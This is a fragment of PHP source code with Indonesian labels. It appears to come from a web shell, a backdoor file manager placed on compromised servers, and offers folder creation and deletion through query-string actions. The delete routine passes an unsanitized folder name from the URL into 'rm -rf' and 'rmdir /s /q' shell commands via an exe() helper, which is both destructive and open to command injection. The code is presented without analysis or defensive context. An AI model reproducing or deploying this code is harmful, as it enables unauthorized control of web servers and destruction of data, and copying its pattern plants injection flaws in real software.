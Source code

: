     //folder
   
    //buat_folder
    if ($_GET['aksi'] == 'buat_folder' ) {
        $output = "
        <h4><i class='fa fa-folder'></i> Buat Folder: </h4>
        <form method='POST'>
            <input type='text' class='form-control' name='nama_folder' placeholder='Nama Folder...'><br />
            <button type='sumbit' class='btn btn-info btn-block' name='buat'>Buat!!</button><br/>
        </form>
        ";
        echo $output;
    }
   
    if (isset($_POST['buat'])) {
        $nama_folder = $_POST['nama_folder'];
        $folder = preg_replace("([^\w\s\d\-_~,;:\[\]\(\].]|[\.]{2,})", '',          $_POST["nama_folder"]);
        $fd = mkdir ($folder);
        if ($fd) {
            echo '<script>window.location="?dir='.$path.'"; alert("Berhasil Membuat Folder");</script>';
        }else{
            echo "Folder ".$folder." Gagal Dibuat!!";
        }
    }
   
   
   
    //hapus_folder
    if (isset($_GET['hapus_folder'])) {
        $dir = $_GET['hapus_folder'];
       
        $output ="
        [ <a href='?hapus_folder=".$path."/".$dir."'>Hapus</a> ]  [ <a href='?rename=".$path."/".$dir."'>Rename</a> ]
        <div class='card container'>
            <center><br/>
                <font color='black'>Apakah Yakin Menghapus : $dir
            </center><br/><br/>
            <form method='POST'>
                <a class='btn btn-danger' href='?'>Tidak</a>
                <input type='submit' name='ya' class='float-right btn btn-success' value='  Ya  '>
            </form><br/><br/>
        ";
        echo $output;
       
        if ($_POST['ya']) {
            if(is_dir($dir)) {
                if(is_writable($dir)) {
                    @rmdir($dir);
                    @exe("rm -rf $dir");
                    @exe("rmdir /s /q $dir");
                    echo "<script>window.location='?dir=".dirname($dir)."'; alert('Berhasil Menghapus Folder');</script>";
                } else {
                    echo "<font color=red>could not remove ".basename($dir)."</font>";
                }
            }
        }
    }
   